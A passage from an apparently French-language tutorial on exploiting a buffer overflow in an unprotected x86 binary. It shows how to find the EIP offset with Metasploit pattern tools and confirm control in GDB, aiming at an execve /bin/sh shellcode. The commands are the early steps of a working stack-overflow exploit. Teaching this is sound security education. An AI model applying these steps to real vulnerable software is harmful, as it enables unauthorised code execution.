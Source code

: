 Toutes les protections basiques étant désactivés nous pouvons passer à l'exploitation simple de ce binaire.

## Exploitation

L'objectif va être ici d’exécuter un shellcode classique: execve /bin/sh. Ainsi après avoir exploité la vulnérabilité liée au strcpy nous allons obtenir un shell.

### Trouver EIP

La première étape de l'exploitation d'un buffer overflow consiste à trouver la taille de buffer à remplir afin de contrôler un registre. En effet, nous n'allons pas toujours pouvoir contrôler directement EIP ( bien que ce soit le cas ici )

Pour cela, plusieurs techniques existent, la plus simple consiste en l'utilisation de patterns. Et encore une fois de nombreux outils sont disponibles, j'utiliserais ici Metasploit qui ( à l'heure ou j'écris cet article ) me parait être le plus pratique.

Tout d'abord, je génère un pattern, avec l'outil pattern_create :

```

~/H/E/m/t/exploit ❯❯❯ pwd
/home/shoxx/HackingTools/Exploit/metasploit-framework/tools/exploit

~/H/E/m/t/exploit ❯❯❯ ruby pattern_create.rb -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

```

Puis j'utilise ce pattern en tant qu'argument du binaire dans GDB :

`gdb-peda$ run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5...`

![Recherche d'EIP en utilisant un pattern](/medias/articles/exploitation-binaire-x86-sans-protections/Sélection_005.png)

Le programme crash une nouvelle fois, GDB indique : 0x62413262 in ?? ().

Je renseigne donc cette adresse à l'outil metasploit pattern_offset :

```
~/H/E/m/t/exploit ❯❯❯ ./pattern_offset.rb -l 300 -q 0x62413262
[*] Exact match at offset 37
```

37 ! Nous avons donc le contrôle d'EIP au 37ème caractère, vérifions cela :

`gdb-peda$ run $(python -c "from struct import pack; print 'a'\*37+pack('<I',0xdeadbeef)")`

J'utilise ici, la méthode pack de la librairie struct, celle ci permet de renseigner directement valeurs hexadécimales sans se prendre la tête avec la conversion little / big endian. Si nous contrôlons bien EIP, le débogeur va tenter d'accéder à l'adresse 0xdeadbeef et crasher :

![Vérification de la taille](/medias/articles/exploitation-binaire-x86-sans-protections/Sélection_006.png)
